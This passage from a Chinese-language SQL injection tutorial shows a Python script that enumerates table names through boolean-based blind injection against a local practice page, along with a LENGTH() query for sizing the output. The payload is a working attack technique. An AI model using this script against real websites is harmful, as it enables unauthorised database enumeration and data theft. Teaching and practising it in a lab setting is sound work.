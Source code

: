 最后我们就能得知`test`数据库中某一张表名的第一个字符为`f`

**脚本注入**

同样地，我们利用脚本来进行注入攻击，只需要将刚才的脚本稍作修改，就能够继续使用

```py
import string
import requests

# 攻击的url
url = 'http://localhost/sql-injection/blind.php'
# 字符集
# 包含小写字母、数字、特殊字符
charset = string.ascii_lowercase + string.digits + string.punctuation
# 最大数据长度
max_len = 50
# 定义数据表名
table_name = ''

for i in range(1, max_len + 1):
    for char in charset:
        print(f'正在第{i}次尝试字符{char}')
        payload = f"1' AND SUBSTR((SELECT GROUP_CONCAT(TABLE_NAME) FROM information_schema.tables WHERE TABLE_SCHEMA=DATABASE()),{i},1)='{char}'#"
        response = requests.post(url, data={'username': payload})
        if not '输入的用户名不存在' in response.text:
            table_name += char

print(table_name)
```

这里的最大数据长度最好事先使用`LENGTH()`进行判断

```sql
SELECT LENGTH((SELECT GROUP_CONCAT(TABLE_NAME) FROM information_schema.tables WHERE TABLE_SCHEMA=DATABASE()));
```

> <img src="./IMG3/3.png">

然后使用脚本爆破

> <img src="./IMG3/2.png">
